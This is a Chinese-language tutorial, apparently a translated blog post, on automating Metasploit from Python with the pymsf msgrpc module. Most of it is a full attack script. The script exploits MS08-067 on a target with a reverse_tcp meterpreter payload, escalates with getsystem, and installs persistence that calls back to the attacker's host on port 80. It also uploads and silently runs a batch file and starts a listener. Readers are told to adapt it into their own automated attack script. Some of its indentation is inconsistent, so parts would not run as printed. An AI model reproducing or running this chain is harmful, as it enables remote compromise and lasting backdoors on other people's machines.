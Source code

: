 # Python 版的 Metasploit

## Python 版的 Metasploit

pymsf 模块是 Spiderlabs 实现的一个 python 与 Metasploit 的 msgrpc 通信的 python 模块,但首先你需要先启动 msgrpc 服务,命令如下:

```py
load msgrpc Pass=<password> 
```

与 msgrpc 进行通信其实就是与 msfconsole 进行通信，首先你需要创建一个 msfrpc 的类,登录到 msgrpc 服务器并且创建一个虚拟的终端,然后你就可以在你创建的虚拟终端上面执行多个命令的字符串.你可以调用模块的方法与 console.write 执行命令,并且通过"console.read"从虚拟终端上面读取输入的值.这篇文章将演示如何使用 pymsf 模块并且如何开发出一个完整的脚本.

这里有一个函数它创建了一个 msfrpc 实例,登录到 msgrpc 服务器,并且创建了一个虚拟终端.

```py
def sploiter(RHOST, LHOST, LPORT, session):
    client = msfrpc.Msfrpc({})
    client.login('msf', '123')
    ress = client.call('console.create')
    console_id = ress['id'] 
```

下一步就是实现把多个字符串发给虚拟终端,通过 console.write 和 console.read 在虚拟终端显示与读取:

```py
## Exploit MS08-067 ##
commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
print "[+] Exploiting MS08-067 on: "+RHOST
client.call('console.write',[console_id,commands])
res = client.call('console.read',[console_id])
result = res['data'].split('\n') 
```

上面的这一小段代码创建了一个 MSF 的资源文件,这样你就可以通过"resoucen <pathtofile class="calibre11">"命令去执行指定文件里面中一系列的命令.下面我们将通过"getsystem"命令把这个文件的提权,建立一个后门打开 80 端口来转发.并且永久的运行.最后上传我们的漏洞 exp 并且在命令模式下面悄悄的安装:</pathtofile>

```py
# 这个函数会创建一个 MSF .rc 文件
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')

     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close() 
```

通过上面的那段代码,将会创建一个.rc 的文件.通过 msf 模块“post/multi/gather/run_console_rc_file”在当前的 meterpreter 会话中运行生成的文件,并且通过 console.write 命令从虚拟终端写入数据,通过 console.read 命令来回显返回内容:

```py
## 运行生成的 exp ##
runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
print "[+] Setting up listener on: "+LHOST+":80"
client.call('console.write',[console_id,listen])
lres = client.call('console.read',[console_id])
print lres 
```

上面代码中的变量(RHOST, LHOST, LPORT 等)都是通过 optparse 模块从命令终端输入的,完整的脚本托管在 github 上面,有时候你需要知道脚本的生成的地方都是静态地址,不会在其他的目录生成,例如 ms08067 的补丁就会在你的/tmp/目录下面。大家只要知道基础然后对下面的代码进行一定的修改就可以编程一个属于你自己的 msf 自动化攻击脚本,我们建议通过博客里面发表的一些简单的例子出发,然后自己写一个 msf 攻击脚本:

```py
import os, msfrpc, optparse, sys, subprocess
from time import sleep

# Function to create the MSF .rc files
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')

     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
     batcomm = "ms08067_patch.exe /quiet"
     post.write(postcomms); bat.write(batcomm)
     post.close(); bat.close()

# Exploits the chain of rc files to exploit MS08-067, setup persistence, and patch
def sploiter(RHOST, LHOST, LPORT, session):
     client = msfrpc.Msfrpc({})
        client.login('msf', '123')
        ress = client.call('console.create')
        console_id = ress['id']

## Exploit MS08-067 ##
     commands = """use exploit/windows/smb/ms08_067_netapi
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOST """+RHOST+"""
set LHOST """+LHOST+"""
set LPORT """+LPORT+"""
set ExitOnSession false
exploit -z
"""
     print "[+] Exploiting MS08-067 on: "+RHOST
     client.call('console.write',[console_id,commands])
     res = client.call('console.read',[console_id])
     result = res['data'].split('\n')

## Run Post-exploit script ##
     runPost = """use post/multi/gather/run_console_rc_file
set RESOURCE /tmp/smbpost.rc
set SESSION """+session+"""
exploit
"""
     print "[+] Running post-exploit script on: "+RHOST
     client.call('console.write',[console_id,runPost])
     rres = client.call('console.read',[console_id])
## Setup Listener for presistent connection back over port 80 ##
     sleep(10)
     listen = """use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 80
set LHOST """+LHOST+"""
exploit
"""
     print "[+] Setting up listener on: "+LHOST+":80"
     client.call('console.write',[console_id,listen])
     lres = client.call('console.read',[console_id])
     print lres

def main():
        parser = optparse.OptionParser(sys.argv[0] +\
        ' -p LPORT -r RHOST -l LHOST')
        parser.add_option('-p', dest='LPORT', type='string', \
        help ='specify a port to listen on')
        parser.add_option('-r', dest='RHOST', type='string', \
        help='Specify a remote host')
        parser.add_option('-l', dest='LHOST', type='string', \
        help='Specify a local host')
     parser.add_option('-s', dest='session', type='string', \
        help ='specify session ID')
     (options, args) = parser.parse_args()
     session=options.session
     RHOST=options.RHOST; LHOST=options.LHOST; LPORT=options.LPORT

     if (RHOST == None) and (LPORT == None) and (LHOST == None):
                print parser.usage
                sys.exit(0)

     builder(RHOST, LHOST, LPORT)
     sploiter(RHOST, LHOST, LPORT, session)

if __name__ == "__main__":
      main() 
```